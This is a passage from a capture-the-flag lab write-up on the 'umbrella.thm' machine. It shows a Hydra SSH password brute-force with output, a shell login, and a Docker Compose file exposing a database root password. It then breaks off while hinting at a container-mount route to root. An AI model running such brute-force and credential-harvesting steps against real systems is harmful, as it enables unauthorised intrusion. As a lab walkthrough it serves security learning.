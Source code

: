 ![Desktop View](/ps-hash.webp){: width="1200" height="450" }

### Brute Force SSH

```console
$ hydra -L usernames -P passwords ssh://umbrella.thm
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-23 21:19:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ssh://umbrella.thm:22/
[22][ssh] host: umbrella.thm   login: c****-r   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-23 21:19:21
```
### **The shell**

```console
$ ssh cl***-r@umbrella.thm
....
....
claire-r@umbrella.thm's password: 
....
....

claire-r@ctf:~$ ls
timeTracker-src  user.txt
claire-r@ctf:~$ cat user.txt 
THM{************************}
claire-r@ctf:~$ 
```
### docker file

```console
claire-r@ctf:~/timeTracker-src$ cat docker-compose.yml 
version: '3.3'
services:
  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: 'timetracking'
      MYSQL_ROOT_PASSWORD: 'Ng1-f3!Pe7-e5?Nf3xe5'
    ports:
      - '3306:3306'     
    volumes:
      - ./db:/docker-entrypoint-initdb.d
  app:
    image: umbrella/timetracking:latest
    restart: always
    ports:
      - '8080:8080'
    volumes:
      - ./logs:/logs

```
> Examining the docker compose file, we notice /home/claire-r/timeTracker-src/logs is mounted inside the web application container at /logs so if we login as root in docker so we can ...
{: .prompt-info}

